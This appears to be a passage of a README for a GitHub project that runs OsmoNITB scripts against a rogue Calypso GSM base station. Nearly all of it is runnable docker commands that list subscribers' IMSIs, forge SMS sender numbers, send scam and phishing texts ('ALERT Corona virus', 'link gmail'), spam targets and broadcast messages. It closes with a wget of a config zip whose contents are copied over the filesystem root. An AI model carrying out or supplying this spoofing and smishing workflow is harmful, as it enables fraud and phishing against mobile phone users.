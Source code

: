 ```
docker exec -ti bulk2g python2 osmo-nitb-scripts-calypsobts/scripts_spoof1/sending_sms_broadcast.py 
```
log should be :  subscriber extension 0341220590 sms sender extension 0341220590 send ALERT Corona virus  

## Testing CALYPSO SpoofScript2
ctrl+shift+T
```
docker exec -ti bulk2g python2 osmo-nitb-scripts-calypsobts/scripts_spoof2/show_subscribers.py 
```
You could find imsi and extension
Create a virtual extension 0341220590 and send sms to existing EXTENSION eg : 164
```
docker exec -ti bulk2g  python2 osmo-nitb-scripts-calypsobts/scripts_spoof2/sms_send_source_dest_msg.py 0341220590 EXTENSION "link gmail"
```
You could find imsi and extension
```
docker exec -ti bulk2g python2 osmo-nitb-scripts-calypsobts/scripts_spoof2/show_subscribers.py 
```
Creating many extensions for sending a scam sms repeat 3 times
```
docker exec -ti bulk2g  python2 osmo-nitb-scripts-calypsobts/scripts_spoof2/sms_spam.py EXTENSION 3 "link gmail"
```
You could find imsi and extension
```
docker exec -ti bulk2g python2 osmo-nitb-scripts-calypsobts/scripts_spoof2/show_subscribers.py 
```
Sending a broadcast sms by using a virtual number as extension 165
```
docker exec -ti bulk2g  python2 osmo-nitb-scripts-calypsobts/scripts_spoof2/sms_broadcast.py 165 "link gmail"
```
You could find imsi and extension
```
docker exec -ti bulk2g  python2 osmo-nitb-scripts-calypsobts/scripts_spoof2/show_subscribers.py
```
## Testing CALYPSO FakeSMS Sender
Copying all config :
```
wget https://raw.githubusercontent.com/SitrakaResearchAndPOC/nitb-script-all/refs/heads/main/osmonitb_sms_sender.zip
```
```
unzip osmonitb_sms_sender.zip
```
```
cp -rf osmonitb_sms_sender/* /
```
```
cat config.json
```
```
cat interact.py
```
